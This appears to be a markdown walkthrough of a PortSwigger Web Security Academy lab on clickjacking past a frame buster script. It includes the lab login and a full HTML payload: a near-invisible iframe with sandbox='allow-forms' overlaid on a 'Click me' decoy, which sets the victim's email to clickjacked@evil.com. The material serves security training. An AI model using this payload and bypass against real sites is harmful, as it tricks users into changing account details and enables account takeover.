


# 🛡️ Lab: Clickjacking with a frame buster script

## 🎯 Objective
This lab demonstrates how to perform a **clickjacking attack** that bypasses a frame buster and tricks a user into changing their email address.

---

## 🧭 Steps

### 1️⃣ Access the Lab
Log in to your account (`wiener:peter`) and go to `/my-account`.

📸 Screenshot:


---

### 2️⃣ Craft and Align the Clickjacking Payload
- Go to the exploit server and paste the following HTML:
```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 440px;
        left: 80px;
        z-index: 1;
    }
</style>

<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://0a85007404cc435781e9b12500e3000f.web-security-academy.net/my-account?email=clickjacked%40evil.com"></iframe>
```

- Ensure the `"Click me"` button overlaps perfectly with the target button `"Update email"`.
- Use `sandbox="allow-forms"` to bypass the frame buster script.
- Deliver the exploit to the victim.

📸 Screenshot:


---

## ✅ Result
If aligned correctly, the lab is solved once the victim unknowingly updates their email.

